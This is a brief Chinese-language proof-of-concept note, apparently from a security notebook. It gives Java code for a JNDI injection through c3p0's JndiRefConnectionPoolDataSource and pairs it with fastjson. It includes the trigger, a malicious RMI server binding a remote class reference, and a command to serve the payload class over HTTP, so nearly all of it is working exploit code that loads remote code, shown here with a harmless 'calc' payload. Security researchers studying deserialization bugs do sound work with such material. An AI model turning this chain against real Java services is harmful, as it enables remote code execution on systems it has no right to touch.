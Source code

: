 ## POC

```java
public static void main(String[] args) throws Exception {
    JndiRefConnectionPoolDataSource exp = new JndiRefConnectionPoolDataSource();
    exp.setJndiName("rmi://127.0.0.1:1099/evil");
    exp.setLoginTimeout(1);
}
```

RMI服务端：

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws Exception {
        String url = "http://127.0.0.1:8080/";
        Registry r = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("calc", "calc", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        r.bind("evil",referenceWrapper);
    }
}
```

calc.class挂web服务，`python -m http.server 8080`

![image-20230125180438590](../.gitbook/assets/image-20230125180438590.png)

配合fastjson使用
